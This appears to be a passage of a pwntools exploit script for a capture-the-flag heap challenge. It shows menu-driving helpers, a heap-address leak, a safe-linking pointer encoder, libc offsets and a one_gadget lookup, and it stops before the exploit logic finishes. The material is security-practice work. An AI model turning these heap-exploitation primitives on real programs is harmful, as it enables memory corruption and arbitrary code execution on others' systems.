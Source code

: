 ```py  
def local(argv=[], *a, **kw):  
   '''Execute the target binary locally'''  
   if pwn.args.GDB:  
       return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)  
   else:  
       return pwn.process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):  
   '''Connect to the process on the remote host'''  
   io = pwn.connect(host, port)  
   if pwn.args.GDB:  
       pwn.gdb.attach(io, gdbscript=gdbscript)  
   return io

def start(argv=[], *a, **kw):  
   '''Start the exploit against the target.'''  
   if pwn.args.LOCAL:  
       return local(argv, *a, **kw)  
   else:  
       return remote(argv, *a, **kw)

gdbscript = '''  
source /home/nasm/Downloads/pwndbg/gdbinit.py  
'''.format(**locals())

HEAP_OFFT = 0x3d10  
CHUNK3_OFFT = 0x3d50  
STDOUT = 0x21a780

def encode_ptr(heap, offt, value):  
   return ((heap + offt) >> 12) ^ value

import subprocess  
def one_gadget(filename):  
 return [int(i) for i in subprocess.check_output(['one_gadget', '--raw',
filename]).decode().split(' ')]

def exp():

   io = start()

   def init(flip):  
       io.sendlineafter(b"> ", flip)  
  
   def add(idx, data: bytes):  
       io.sendlineafter(b"Option: ", b"1")  
       io.sendlineafter(b"Index: ", str(idx).encode())  
       io.sendlineafter(b"Write me a book no more than 32 characters long!\n", data)

   def edit(idx, data):  
       io.sendlineafter(b"Option: ", b"2")  
       io.sendlineafter(b"Index: ", str(idx).encode())  
       io.sendlineafter(b"Write me the new contents of your book that is no longer than what it was before.\n", data)

   def free(idx):  
       io.sendlineafter(b"Option: ", b"3")  
       io.sendlineafter(b"Index: ", str(idx).encode())

   def heapLeak(idx):  
       io.sendlineafter(b"Option: ", b"1337")  
       io.sendlineafter(b"What is your favourite number? ", str(idx).encode())  
       io.recvuntil(b"You found a secret message: ")  
```